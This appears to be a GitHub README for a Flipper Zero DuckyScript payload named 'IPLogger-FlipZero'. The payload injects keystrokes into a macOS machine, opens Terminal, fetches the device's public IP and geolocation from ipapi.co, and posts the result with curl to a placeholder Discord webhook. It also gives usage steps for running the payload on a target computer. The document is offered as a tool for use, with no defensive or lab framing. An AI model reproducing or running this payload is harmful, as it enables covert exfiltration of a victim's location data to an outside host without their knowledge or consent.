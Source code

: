 
# IPLogger-FlipZero by bst04

## Description

This script, created by bst04, is designed to work on macOS systems. It opens Terminal, fetches the public IP address of the device, and sends it to a Discord webhook using `curl`.

---

## Technical Explanation

1. **Initialization**:
    - `DELAY 500`: Waits for 0.5 seconds to ensure the system is ready.
    - `GUI SPACE`: Simulates pressing the "Command" + "Space" keys to open Spotlight Search.
    - `DELAY 500`: Waits for 0.5 seconds for Spotlight to open.
    - `STRING Terminal`: Types "Terminal" to search for the Terminal application.
    - `ENTER`: Opens the Terminal application.

2. **Fetch Public IP Address**:
    - `DELAY 1000`: Waits for 1 second to ensure Terminal is fully opened.
    - `STRING location=$(curl -s https://ipapi.co/json/)`: Fetches the public IP address and stores it in a variable named `location`.

3. **Send IP Address to Discord Webhook**:
    - `DELAY 1000`: Waits for 1 second to ensure the previous command is executed.
    - `STRING curl -X POST -H "Content-Type: application/x-www-form-urlencoded" --data-urlencode "content=$location" https://yourwebhook`: Sends the IP address to the specified Discord webhook.

4. **Completion**:
    - `DELAY 30000`: Waits for 30 seconds before concluding the script.

---

## Usage

1. Copy the payload script to your DuckyScript-enabled device.
2. Ensure the device is connected to a macOS system.
3. Execute the payload to fetch and send the public IP address to your Discord webhook.

---


